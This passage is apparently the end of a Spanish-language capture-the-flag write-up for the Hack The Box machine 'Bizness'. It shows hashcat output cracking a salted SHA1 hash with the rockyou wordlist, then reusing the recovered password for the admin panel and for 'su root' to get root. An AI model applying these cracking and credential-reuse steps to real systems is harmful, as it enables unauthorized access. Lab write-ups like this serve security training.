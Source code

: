 ```bash
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

b8fd3f41a541a435857a8f3e751cc3a91c174362:d:monkeybizness  
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 120 (sha1($salt.$pass))
Hash.Target......: b8fd3f41a541a435857a8f3e751cc3a91c174362:d
Time.Started.....: Thu May 30 16:11:56 2024 (1 sec)
Time.Estimated...: Thu May 30 16:11:57 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2056.5 kH/s (0.09ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1478656/14344385 (10.31%)
Rejected.........: 0/1478656 (0.00%)
Restore.Point....: 1477632/14344385 (10.30%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: montano13 -> monkey-moo
Hardware.Mon.#1..: Util: 57%

Started: Thu May 30 16:11:40 2024
Stopped: Thu May 30 16:11:57 2024
```
Y con el 120 sacamos la pass monkeybizness y entrar al panel administrador.
![](/assets/images/htb-writeup-bizness/10.png)


Si pruebo esta pass con el user root en la máquina también conseguimos acceso.

```bash
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0$ su root
Password: 
root@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0# whoami
root
```
<div style="text-align: center;">
    <b><span style="color: #98FB98;">ROOT FLAG</span></b>
    <br>
    ---------------------------
</div>
 --------------------------
